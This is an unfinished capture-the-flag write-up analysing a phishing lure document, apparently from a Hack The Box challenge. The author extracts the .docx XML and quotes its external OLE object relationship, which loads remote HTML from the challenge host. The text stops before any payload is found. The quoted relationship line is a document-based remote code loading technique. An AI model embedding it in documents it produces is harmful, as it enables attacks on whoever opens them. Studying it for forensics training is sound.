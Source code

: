 WIP
> Our SOC has identified numerous phishing emails coming in claiming to have a document about an upcoming round of layoffs in the company. The emails all contain a link to diagnostic.htb/layoffs.doc. The DNS for that domain has since stopped resolving, but the server is still hosting the malicious document (your docker). Take a look and figure out what's going on.
#### Steps
1. Connecting to the instance with `nc` returned nothing, so I navigated to the webpage
2. The webpage returned a `404`, so I added the domain from the description to my host file
```shell
└─$ sudo sh -c "echo '94.237.62.195 diagnostic.htb' >> /etc/hosts"
```
3. Navigating to `http://94.237.62.195:43141/layoffs.doc`, I downloaded the doc file
```shell
└─$ file diagnostic.doc
diagnostic.doc: Zip archive data, at least v2.0 to extract, compression method=store
```
4. Unzipping the file, I got the directories `docProp`, `word`, `_rels`, and a `Content_types` xml document
5. All of the directories contained xml files
6. I recursively grepped for `html` to see if I cound find any other pages hosted on the instance
```shell
└─$ grep -r html
_rels/document.xml.rels:<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId3" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/webSettings" Target="webSettings.xml"/><Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/settings" Target="settings.xml"/><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/styles" Target="styles.xml"/><Relationship Id="rId996" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="http://diagnostic.htb:43141/223_index_style_fancy.html!" TargetMode="External"/><Relationship Id="rId5" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/theme" Target="theme/theme1.xml"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/fontTable" Target="fontTable.xml"/></Relationships>
document.xml:   </v:shape><o:OLEObject Type="Link" ProgID="htmlfile" ShapeID="_x0000_i1025" DrawAspect="Content" r:id="rId996" UpdateMode="OnCall">
```
7. `Target="http://diagnostic.htb:43141/223_index_style_fancy.html!"`
8. At this point I waited so long for the site to load that I just restarted the instance (which didn't work)
9. Soooooo I'll come back later
